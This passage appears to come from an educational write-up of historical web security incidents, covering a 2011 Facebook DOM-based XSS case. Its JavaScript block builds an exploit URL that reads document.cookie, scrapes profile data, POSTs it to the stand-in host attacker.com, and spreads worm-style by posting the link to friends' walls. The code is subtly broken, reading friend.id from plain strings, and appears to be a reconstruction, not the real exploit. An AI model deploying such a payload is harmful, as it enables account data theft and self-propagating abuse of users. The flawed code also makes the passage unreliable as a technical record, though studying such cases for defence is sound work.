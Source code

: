 **Business Impact**:
- **User Trust**: Massive loss of user confidence
- **Regulatory Scrutiny**: Increased oversight from authorities
- **Technical Debt**: Complete email system overhaul required
- **Financial Impact**: $350+ million in security improvements

### Case Study 5: Facebook XSS Vulnerability (2011)

**Impact**: Potential access to 800+ million user accounts
**Attack Vector**: DOM-based XSS in profile pages
**Discovery**: Security researcher demonstration

**Exploitation Technique**:
```javascript
// Facebook DOM XSS exploitation
const facebookDOMXSS = {
    // Vulnerable parameter in profile URL
    exploitURL: 'https://facebook.com/profile.php?id=123&v=info#/javascript:alert(document.cookie)',
    
    // Payload execution
    payload: \`
        // Extract user data
        const userData = {
            name: document.querySelector('.profileName').textContent,
            friends: Array.from(document.querySelectorAll('.friendName')).map(el => el.textContent),
            photos: Array.from(document.querySelectorAll('.photoThumbnail')).map(el => el.src),
            posts: Array.from(document.querySelectorAll('.postContent')).map(el => el.textContent)
        };
        
        // Exfiltrate data
        fetch('https://attacker.com/facebook-data', {
            method: 'POST',
            body: JSON.stringify(userData)
        });
        
        // Spread to friends
        userData.friends.forEach(friend => {
            // Post malicious content to friend's wall
            fetch('/ajax/wall/post', {
                method: 'POST',
                body: new URLSearchParams({
                    target_id: friend.id,
                    message: 'Check out this cool link: ' + exploitURL
                })
            });
        });
    \`
};
```

### Case Study 6: Twitter XSS Worm "Mikeyy" (2009)
